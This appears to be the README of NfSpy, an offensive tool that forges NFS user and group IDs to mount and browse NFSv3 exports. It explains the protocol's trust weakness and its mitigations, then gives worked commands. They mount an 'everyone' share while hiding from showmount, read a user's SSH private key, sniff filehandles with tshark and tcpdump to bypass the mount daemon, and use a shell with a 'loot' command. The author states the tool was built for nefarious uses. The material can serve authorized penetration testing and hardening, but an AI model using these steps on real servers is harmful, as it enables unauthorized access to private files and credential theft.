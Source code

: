 NfSpy - an ID-spoofing NFS client
=================================
by [Daniel Miller](https://github.com/bonsaiviking)

NfSpy is a Python library for automating the falsification of NFS credentials when mounting an NFS
share. Included are two client programs:

* **nfspy** uses the Filesystem in Userspace (FUSE) library to mount an NFS
  share in Linux. This allows the use of any regular file-searching and
  manipulation programs like `grep` and `find` to explore the NFS export.

* **nfspysh** is a ftp-like interactive shell for exploring NFS exports. It does
  not require the FUSE library, so it can run on non-Linux platforms.

Vulnerability exploited
-----------------------

NFS before version 4 is reliant upon host trust relationships for
authentication. The NFS server trusts any client machines to authenticate users
and assign the same user IDs (UIDS) that the shared filesystem uses. This works
in NIS, NIS+, and LDAP domains, for instance, but only if you know the client
machine is not compromised, or faking its identity. This is because the only
authentication in the NFS protocol is the passing of the UID and GID (group
ID). There are a few things that can be done to enhance the security of NFS,
but many of them are incomplete solutions, and even with all three listed here,
it could still be possible to circumvent the security measures.

### Squash root

The server or the share ("export" in NFS lingo) can be configured root\_squash,
meaning that any requests that come in claiming to be UID or GID 0 (root) will
be treated like the nobody user, or equivalent on the system. This does not
prevent an attacker from spoofing any other UID/GID combo, but will protect the
most sensitive info and configs on the export.

### nfs\_portmon

Another setting that can be enabled is nfs\_portmon, which denies requests
coming from source ports outside of the 513-1024 range. Since only root can
(usually) allocate these ports, this prevents a regular user on a trusted
machine from writing and using their own NFS client that fakes UID/GID. It does
nothing to stop a rogue host, a user with su permissions, or a root-level
compromised machine from doing the same thing.

### Export restrictions

Shares/exports can be controlled so that only certain machines can access them.
These Access Control Lists can consist of:

* IP addresses (e.g. 192.168.1.34)
* IP prefixes (e.g. @192.168.1)
* hostnames (e.g. server1.mydom.nis)
* host lists (e.g. @trusted\_hosts)
* "everyone"

The best configuration would be to use a host list, since querying the nfs
daemon will just give the name of the list, not which addresses or names it
contains. Next in line would be IP addresses or hostnames, since those are more
difficult to spoof. IP prefixes and "everyone" are indications of insecurity,
since there is little or no restriction on what addresses can connect.

Using NfSpy
-----------

A list of options can be seen by running

    nfspy --help

### Example

There is an NFS server on 192.168.1.124.

    $ showmount -e 192.168.1.124
    Export list for 192.168.1.124:
    /home (everyone)

Mount up the share. Using sudo lets you bind to a privileged port, and the 
allow\_other option lets any user use the filesystem. The other new option here
is "hide", which immediately "unmounts" the share on the server, but keeps the 
filehandle it got. This hides your presence from anyone using showmount -a

    $ sudo nfspy -o server=192.168.1.124:/home,hide,allow_other,ro,intr /mnt

Enjoy your newfound freedom!

    $ cd /mnt
    /mnt$ ls -l
    drwx------ 74 8888 200 4096 2011-03-03 09:55 smithj
    /mnt$ cd smithj
    /mnt/smithj$ cat .ssh/id.rsa
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: DES-EDE3-CBC,30AEB543E512CA19
    <snip>

To unmount, use fusermount:

    $ sudo fusermount -u /mnt

### Advanced example

There is an NFS server on 192.168.1.124. Portmap is blocked, so you can't get a list of shares, but you can sniff the network traffic.

    $ sudo tshark -n -i eth0 -T fields -e nfs.fhandle
    Running as user "root" and group "root". This could be dangerous.
    Capturing on eth0
    01:00:04:00:01:00:22:00:e5:03:d8:9d:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
    01:00:04:01:01:00:22:00:e5:03:d8:9d:07:00:22:00:15:83:74:d5:00:00:00:00:00:00:00:00:00:00:00:00
    01:00:04:01:01:00:22:00:e5:03:d8:9d:07:00:22:00:15:83:74:d5:00:00:00:00:00:00:00:00:00:00:00:00
    
    ^C3 packets captured

Now use the dirhandle and getroot mount options to avoid using the mount
daemon, and use the nfsport option to avoid using the portmapper, traversing
up the directory tree to the root of the export. 

    $ sudo nfspy -o rw,server=192.168.1.124:,nfsport=2049/udp,dirhandle=01:00:04:01:01:00:22:00:e5:03:d8:9d:07:00:22:00:15:83:74:d5:00:00:00:00:00:00:00:00:00:00:00:00,getroot mnt

Note that we didn't provide a path to mount, since all we know is the nfs
filehandle. For this to work, the handle must be to a directory, not a file,
and you have to work quickly or the handle will become stale.

The `tshark` program is part of the Wireshark project. The common `tcpdump`
program also has the ability to decode NFS filehandles with the `-u` option:

    sudo tcpdump -n -i eth1 -u -- port 2049
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on eth1, link-type EN10MB (Ethernet), capture size 65535 bytes
    11:16:38.041242 IP 192.168.1.5.3057978128 > 192.168.1.124.2049: 120 getattr fh[2070001:762001:0:7500c611:a04186e6:edccffaa:1a0a608e:a065:500859ff:762001:adebb708]

These filehandles are 4-byte colon-separated, so you'll have to pad them with zeros
on your own; NfSpy will just strip the colons out, which is incorrect.

Using nfspysh
-------------

`nfspysh` takes the same basic set of options in the same format as `nfspy`, so
the tutorial above should work fine. The list of commands can be seen with the
"help" command.

    $ sudo PYTHONPATH=. python scripts/nfspysh -o server=127.0.0.1:/home/miller/nfs
    nfspy@127.0.0.1:/home/miller/nfs:/> ls
    /:
    040775  1000  1000       4096 2013-04-13 23:20:37 .
    040775  1000  1000       4096 2013-04-13 23:20:37 ..
    040775  1000  1000       4096 2013-04-11 06:36:48 public
    040775  1000  1000       4096 2013-04-13 23:26:40 more
    040700     0  1000       4096 2013-04-11 06:39:12 secrets
    100666  1000  1000          5 2013-04-13 23:28:02 README.md
    120777  1000  1000         21 2013-04-13 13:00:24 nmap -> /usr/local/share/nmap
    nfspy@127.0.0.1:/home/miller/nfs:/more> help
    Known commands:
     cat
     cd
     chmod
     chown
     df
     exit
     get
     get2
     getFolder
     help
     lcd
     lll
     loot
     lpwd
     ls
     mkdir
     mv
     put
     pwd
     rm
     rmdir
     shl
     umask
    nfspy@127.0.0.1:/home/miller/nfs:/more> help get
    get <filename> [<localname>]
    
            Retrieve <filename> and save to <localname>. If no <localname> is given,
            defaults to the basename of <filename> in the current local working directory.
    nfspy@127.0.0.1:/home/miller/nfs:/more> exit
    Quitting.



BUGS
----

* Write access is beta. It has worked in my tests on a handful of systems,
  but could use more testing. Because of this, NfSpy defaults to mounting
  ro. Specify the rw mount option to change this.
  (nfspysh does not have a read-only mode. Tread carefully!)

* NfSpy does not work with the standard lockd and statd services, which could
  cause problems with writing to files. For read-only, though, and most
  nefarious uses for which it was intended, this shouldn't be a problem.

* NfSpy only supports NFSv3 at the moment. Future versions may intelligently
  choose a NFS version.
